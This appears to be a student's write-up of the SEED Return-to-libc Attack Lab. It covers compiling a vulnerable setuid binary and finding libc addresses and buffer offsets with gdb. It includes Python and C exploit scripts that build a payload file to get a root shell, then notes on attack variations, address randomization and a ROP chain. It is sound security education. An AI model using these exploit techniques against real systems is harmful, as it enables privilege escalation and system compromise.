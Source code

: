 ```yaml
---
title: Return-to-libc Attack Lab
author: Xinyi Li
date: \today{}
---
```


# Task 1

Use the default `BUF_SIZE` as 12

```shell
gcc -fno-stack-protector -z noexecstack -o retlib retlib.c
sudo chown root retlib
sudo chmod 4755 retlib
```

# Task 2

```shell
[02/27/20]seed@VM:~/.../return_to_lic$ touch badfile
[02/27/20]seed@VM:~/.../return_to_lic$ gdb -q retlib
Reading symbols from retlib...(no debugging symbols found)...done.
gdb-peda$ run
Starting program: /home/seed/Documents/return_to_lic/retlib 
Returned Properly
[Inferior 1 (process 3038) exited with code 01]
Warning: not running or target is remote
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xb7e42da0 <__libc_system>
gdb-peda$ p exit
$2 = {<text variable, no debug info>} 0xb7e369d0 <__GI_exit>
gdb-peda$ quit
```

# Task 3

Write a `envaddr.c`
```c
#include <stdio.h>
#include <stdlib.h>

void main()
{
    char *shell = getenv("MYSHELL");
    if (shell)
        printf("%x\n", (unsigned int)shell);
}
```

**Keep the name of the executable program with length 6 (=len(`'retlib'`))**

```shell
gcc envaddr.c -o env666
```

The address of `/bin/sh` is `0xbffffdef`.

**Note**: Don't use `gdb` to get the address of string `/bin/sh` in `libc`. Beacause `gbd` will inject something to the stack and heap for debugging, so the address probably become different in runtime.

# Task 4

Find the offset:

```shell
$ gcc -fno-stack-protector -z noexecstack -g -o retlib_dbg retlib.c
$ gdb -q retlib_dbg
Reading symbols from retlib_dbg...done.
gdb-peda$ b bof
Breakpoint 1 at 0x80484f1: file retlib.c, line 19.
gdb-peda$ run
Starting program: /home/seed/Documents/return_to_lic/retlib_dbg 
...
Breakpoint 1, bof (badfile=0x804fa88) at retlib.c:19
19	    fread(buffer, sizeof(char), 300, badfile);
gdb-peda$ p $ebp
$1 = (void *) 0xbfffecb8
gdb-peda$ p &buffer
$2 = (char (*)[12]) 0xbfffeca4
gdb-peda$ p/d 0xbfffecb8 - 0xbfffeca4
$3 = 20
gdb-peda$ quit
```

So, the distance between `%ebp` and `&buffer` inside the function `bof` is 20 bytes

- The range to store the address of `system` is: `content[24:28]`
- The range to store the address of `exit` is: `content[28:32]`
- The range to store the address of `\bin\sh` is: `content[32:36]`

Compose `exploit.py` as follows:

```py
#!/usr/bin/python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(40)) #**Note**: it must be modified there. the origin length of     `content` is 300, which may cause `retlib` return directly without launching a root shell. Please change the length to a smaller int.

X = 32
sh_addr = 0xbffffdef      # The address of "/bin/sh"
content[X:X+4] = (sh_addr).to_bytes(4, byteorder='little')

Y = 24
system_addr = 0xb7e42da0  # The address of system()
content[Y:Y+4] = (system_addr).to_bytes(4, byteorder='little')

Z = 28
exit_addr = 0xb7e369d0  # The address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4, byteorder='little')

# Save content to a file
with open("badfile", "wb") as f:
    f.write(content)
```

**Note**: in the line 5, the length of `content` should be set to a smaller number instead of 300 both in the template and source code offered by the official site.

Or use the C version `exploit.c`:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv)
{
    char buf[40];
    FILE *badfile;

    badfile = fopen("./badfile", "w");

    /* You need to decide the addresses and 
     the values for X, Y, Z. The order of the following 
     three statements does not imply the order of X, Y, Z.
     Actually, we intentionally scrambled the order. */
    *(long *)&buf[32] = 0xbffffdef; //  "/bin/sh"
    *(long *)&buf[24] = 0xb7e42da0; //  system()
    *(long *)&buf[28] = 0xb7e369d0; //  exit()

    fwrite(buf, sizeof(buf), 1, badfile);
    fclose(badfile);
}
```

Finally, I got

![](root_shell.png)

## Attack variation 1

The root shell can also be launched. But when exiting the shell, the `retlib` can not be terminated properly. It issues a `Segmentation fault` error.

## Attack variation 2

```shell
mv retlib newretlib
./newretlib
zsh:1: command not found: h
Segmentation fault
```

Before environment variables are pushed into the stack, the program's name is pushed in first. So the location of `/bin/sh` will shift if the length of program's name changes.

# Task 4

It failed. 

`X`,`Y` and `Z` are determined by the relative distance to `ebp`, which is not influenced by the address randomization.

But the address of `system`,`exit`, and `/bin/sh` are updated.

```shell
./env666
/bin/sh is in bfa0cdef
rm badfile
touch badfile
gdb -q retlib
gdb-peda$ set disable-randomization on
gdb-peda$ r
Starting program: /home/seed/Documents/return-to-libc/retlib 
Returned Properly
[Inferior 1 (process 6081) exited with code 01]
Warning: not running or target is remote
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xb7616da0 <__libc_system>
gdb-peda$ p exit
$2 = {<text variable, no debug info>} 0xb760a9d0 <__GI_exit>
gdb-peda$ quit
```

# Task 5

```shell
gcc -fno-stack-protector -z noexecstack -o retlib_rop retlib_rop.c
sudo chown root retlib_rop
sudo chmod 4755 retlib_rop
./retlib_rop
/bin/sh is in 0xbfffe558
Address of buffer[] : 0xbfffe520
Frame Pointer value : 0xbfffe538
Returned Properly
```

```
gdb -q retlib_rop
r
p bar
$1 = {<text variable, no debug info>} 0x8048567 <bar>
p exit
$2 = {<text variable, no debug info>} 0xb7e369d0 <__GI_exit>
```

![](./chainnoarg.png)



